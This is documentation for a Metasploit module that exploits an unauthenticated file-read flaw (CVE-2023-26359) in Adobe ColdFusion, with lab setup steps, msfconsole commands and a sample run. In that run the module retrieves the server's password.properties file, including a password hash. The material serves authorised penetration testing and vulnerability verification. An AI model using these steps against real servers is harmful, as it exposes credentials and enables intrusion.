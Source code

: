 ## Vulnerable Application
This module leverages an unauthenticated arbitrary file read vulnerability due to deserialization of untrusted data
in Adobe ColdFusion. The vulnerability affects ColdFusion 2021 Update 5 and earlier as well as ColdFusion 2018 Update
15 and earlier. For a full technical analysis of the vulnerability read the
[Rapid7 AttackerKB Analysis](https://attackerkb.com/topics/1iRdvtUgtW/cve-2023-26359/rapid7-analysis).

## Options
To successfully read back the contents of an arbitrary file, you must set the modules `CFC_ENDPOINT` option to a valid
ColdFusion Component (CFC) endpoint on the target server. You must also set the CFC_METHOD option to the name of a
remote method from that `CFC_ENDPOINT`. While the vulnerability is triggered regardless of remote method begin invoked,
in order for ColdFusion to emit the `TARGETFILE` contents in the HTTP response, the remote method invoked must return
a result. If the CFC_METHOD requires parameters, they can be provided via the `CFC_METHOD_PARAMETERS` option. By default
a CFC endpoint and method from the ColdFusion Administrator (CFIDE) are provided, which is accessible in many but not
all configurations.

## Testing
To setup a test environment, the following steps can be performed.
1. Setup a Windows Server 2022 VM.
2. Download the [ColdFusion 2021
Update 5](https://cfdownload.adobe.com/pub/adobe/coldfusion/2021/cfinstaller/cf2021u5/ColdFusion_2021_GUI_WWEJ_win64.exe)
installer and install it.
3. Configure the ColdFusion server for production use and enable the Secure Profile during setup.
4. If the default CFIDE endpoints are not accessible (e.g. The server is configured with a Secure profile), install a 
web application on top of ColdFusion in order to expose CFC endpoints. Alternatively, create a test CFC endpoint
called `testing.cfc` in the `wwwroot` folder with the following contents:
```
component testing {
	
	remote String function foo()  { 

		return "Hello from foo";
	}
}
```
5. Follow the verification steps below.

## Verification Steps
1. Start msfconsole
2. `use auxiliary/gather/adobe_coldfusion_fileread_cve_2023_26359`
3. `set RHOSTS <TARGET_IP_ADDRESS>`
4. `set CFC_ENDPOINT /testing.cfc`
5. `set CFC_METHOD foo`
6. Optionally `set CFC_METHOD_PARAMETERS param1=foo&param2=bar` if the CFC_METHOD requires parameters.
7. `set TARGETFILE ../lib/password.properties`
8. `set STORE_LOOT false` if you want to display file on the console instead of storing it as loot.
9. `run`

## Scenarios
### Adobe ColdFusion 2021 Update 5 on Windows Server 2022
```
msf6 auxiliary(gather/adobe_coldfusion_fileread_cve_2023_26359) > show options

Module options (auxiliary/gather/adobe_coldfusion_fileread_cve_2023_26359):

   Name                   Current Setting             Required  Description
   ----                   ---------------             --------  -----------
   CFC_ENDPOINT           /testing.cfc                yes       The target ColdFusion Component (CFC) endpoint
   CFC_METHOD             foo                         yes       The target ColdFusion Component (CFC) remote method name
   CFC_METHOD_PARAMETERS                              no        The target ColdFusion Component (CFC) remote method parameters
                                                                 (e.g. "param1=foo&param2=bar")
   Proxies                                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                 172.23.13.12                yes       The target host(s), see https://docs.metasploit.com/docs/using
                                                                -metasploit/basics/using-metasploit.html
   RPORT                  8500                        yes       The target port (TCP)
   SSL                    false                       no        Negotiate SSL/TLS for outgoing connections
   STORE_LOOT             false                       no        Store the target file as loot
   TARGETFILE             ../lib/password.properties  yes       The target file to read, relative to the wwwroot folder.
   VHOST                                              no        HTTP server virtual host

msf6 auxiliary(gather/adobe_coldfusion_fileread_cve_2023_26359) > run
[*] Running module against 172.23.13.12

[*] #Tue Mar 28 01:33:23 PDT 2023
password=30160D97731079B7ACCF7BCFAD049FCCCA3F855318037AC09DC00FFD52A29F5C
rdspassword=
encrypted=true

[*] Auxiliary module execution completed
msf6 auxiliary(gather/adobe_coldfusion_fileread_cve_2023_26359) > 
```
